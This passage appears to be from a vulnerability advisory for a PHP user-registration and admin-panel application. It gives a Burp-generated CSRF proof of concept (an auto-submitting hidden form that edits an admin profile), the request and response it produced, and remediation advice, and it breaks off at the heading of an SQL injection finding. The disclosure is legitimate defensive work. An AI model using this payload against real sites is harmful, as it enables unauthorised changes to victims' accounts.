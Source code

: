 ```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1" method="POST">
      <input type="hidden" name="fname" value="Rahul" />
      <input type="hidden" name="lname" value="Kumarrr" />
      <input type="hidden" name="contact" value="1111111111" />
      <input type="hidden" name="update" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Observed request sample:**

```
POST /User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1 HTTP/1.1
Host: 192.168.31.97
Cookie: PHPSESSID=7tnikfr1hvrh3p5sq2l0bi9rki
Content-Type: application/x-www-form-urlencoded
Origin: https://192.168.31.97
Referer: https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1

fname=Rahul&lname=Kumarrr&contact=1234567890&update=
```

**Observed response excerpt:**

```
HTTP/1.1 200 OK
<script>alert('Profile updated successfully');</script><script type='text/javascript'> document.location = 'manage-users.php'; </script>
```

### Initial Recommendations
- Implement server-side anti-CSRF tokens (synchronizer token pattern) for all state-changing forms and validate them.  
- Set session cookies with `SameSite=Lax` or `SameSite=Strict` where feasible.  
- Validate `Origin` and `Referer` for sensitive POST endpoints and reject mismatches.  
- Add confirmation/verification for sensitive profile changes (email/SMS).  

---

# 2) Vulnerability: SQL Injection in `fname` (Authenticated POST)

